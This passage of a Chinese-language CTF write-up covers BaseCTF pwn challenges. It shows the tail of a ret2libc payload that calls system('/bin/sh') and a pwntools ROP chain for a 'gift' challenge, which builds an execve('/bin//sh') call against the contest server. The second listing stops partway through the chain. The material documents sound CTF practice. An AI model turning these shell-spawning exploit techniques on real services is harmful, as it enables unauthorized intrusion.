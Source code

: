 ```python
payload2+=p64(rdi)
payload2+=p64(binsh_addr)
payload2+=p64(system_addr)
link.sendline(payload2)

link.interactive()
```

> 运行脚本，输入命令行指令  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240826123210521.png)![](/images/eb19636e9cf68517bc90a8f58f64d108.png)  
成功获得flag！
>

## 8、format_string_level0
后面的没写了...

## 补充
### gift
exp：（忘了是用什么自动生成 payload 的了...）

```python
from pwn import *
from struct import pack
io=remote('challenge.basectf.fun',23326)
p = b''

p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000419484) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000401f2f) # pop rdi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000047f2eb) # pop rdx ; pop rbx ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
```